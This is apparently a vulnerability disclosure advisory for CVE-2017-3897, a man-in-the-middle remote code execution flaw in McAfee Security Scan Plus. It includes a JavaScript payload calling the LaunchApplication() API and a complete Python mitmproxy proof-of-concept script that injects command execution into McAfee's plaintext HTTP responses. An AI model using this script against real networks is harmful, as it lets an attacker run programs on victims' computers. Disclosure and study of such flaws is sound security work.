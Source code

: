 ## Vulnerability Summary
The following advisory describes a Remote Code Execution found in McAfee Security Scan Plus. An active network attacker could launch a man-in-the-middle attack on a plaintext-HTTP response to a client to run any residing executables with privileges of a logged in user.

McAfee Security Scan Plus is a free diagnostic tool that ensures you are protected from threats by actively checking your computer for up-to-date anti-virus, firewall, and web security software. It also scans for threats in any open programs.

## Credit
An independent security research company, Silent Signal, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
The vendor has released patches to address this vulnerability.
For more information: https://service.mcafee.com/webcenter/portal/cp/home/articleview?articleId=TS102714
CVE: CVE-2017-3897

## Vulnerability details
McAfee Security Scan Plus retrieves promotional and UI design information from different mcafee.com domains and displays them to the user, typically in the main application window.

The vulnerability is caused by multiple factors:

Information is retrieved over plaintext HTTP that can be trivially modified by an active network attacker.
McAfee Security Scan Plus rely on the MCBRWSR2.DLL library to display HTML content. The Library exposes the LaunchApplication() JavaScript API that executes arbitrary commands on the affected system.
The McAfee Security Scan Plus downloads, after each scan, a UI element indicating the “protection level” of the target from the following URL:


```
http://home.mcafee.com/SecurityScanner/SSBanner.aspx
```

The following screenshot shows the placeholder of the web content while it is loaded (marked with red):



Although the original response redirects to a secure HTTPS URL (and server certificates are verified by the client), from a man-in-the-middle position it’s possible to replace the redirection message with a HTTP response indicating success, and containing the call to the LaunchApplication() JavaScript API:


```
<script>
window.external.LaunchApplication("c:\\windows\\system32\\calc.exe", "");
</script>
```

The above JavaScript executes the Windows Calculator (without arguments) with the privileges of the logged in user (on the user’s Desktop). The request is made every time the user initiates a scan or when a scan is initiated automatically – by default the product is configured for weekly scans, the exact time depends on the time of the installation.

## Proof of Concept

```
#!/usr/bin/env python3
#
# HTTP proxy mode:
#  mitmproxy -s mcsploit_inline.py --ignore '.*'
#
# Transparent proxy mode:
#   mitmproxy -s mcsploit_inline.py -T
#

from mitmproxy import ctx, http
import requests
import time

COMMAND="c:\\\\windows\\\\system32\\\\calc.exe"
CMDARGS=""

def response(flow):
    if flow.request.scheme == "http" and (flow.request.headers['host'].endswith("mcafee.com") or "mcafee" in flow.request.url):
        if flow.response.status_code == 302:
            ctx.log("[+] [MCSPLOIT] Insecure McAfee request found! (HTML)")
            https_url=flow.request.url.replace("http://","https://")
            r=requests.get(https_url,headers=flow.request.headers,verify=False)
            if "text/html" not in r.headers['content-type']: return
            contents=r.text
            contents=contents.replace("</head>","<script>try{window.external.LaunchApplication(\"%s\",\"%s\");}catch(launchapperr){var x;}</script></head>" % (COMMAND, CMDARGS))
            flow.response = http.HTTPResponse.make(200,bytes(contents,encoding="utf-8"),{"Content-Type": "text/html; charset=utf-8","Expires":"-1"})
            return
        try:
            if flow.response.headers["content-type"] == "text/javascript":
                ctx.log("[+] [MCSPLOIT] Insecure McAfee request found! (JS)")
                inject="try{window.external.LaunchApplication(\"%s\",\"%s\");}catch(launchapperr){var x;}\n" % (COMMAND, CMDARGS)
                try:
                    flow.response.contents = inject + flow.response.contents
                except AttributeError:
                    ctx.log("[-] [MCSPLOIT] No content in the original response!")
                    pass
        except KeyError:
            pass
```